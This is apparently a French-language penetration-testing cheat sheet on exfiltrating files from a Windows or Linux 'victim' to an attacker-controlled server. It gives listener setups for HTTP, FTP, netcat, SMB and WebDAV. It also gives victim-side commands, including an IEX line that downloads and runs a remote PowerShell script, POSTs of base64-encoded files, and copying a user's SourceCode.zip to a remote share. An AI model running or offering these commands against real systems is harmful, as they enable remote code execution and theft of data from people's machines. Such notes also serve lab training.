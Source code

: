 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Listener HTTP
```title=configuration du serveur 
pip3 install uploadserver
python3 -m uploadserver
```

### PsUpload.ps1

```utilisation depuis powershell
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base 64

```
 $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## Listener FTP

```
sudo python3 -m pyftpdlib --port 21 --write
```

### Powershell

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Client ftp
On pourra également utiliser simplement le client `ftp`
## Listener NC

```
# lancement du listener
nc -lvnp 8000

# décodate de la payload reçue 
echo <base64> | base64 -d -w 0 > fichier
```

### Encodage Base 64 du fichier

```title=Linux
echo <base64> | base64 -d -w 0 > fichier
```

```title=Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## SMB

### SMB Classique
```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
```

### WebDav

#### Listener WebDAV

```
# installation
sudo pip install wsgidav cheroot

# utilisation
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Connection au partage

```
# Si on veut accéder à la racine utiliser le partage spécial DavWWWRoot
dir \\192.168.49.128\DavWWWRoot 

# Sinon utilisation du nom du partage classique
dir \\192.168.49.128\partage
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\partage\


```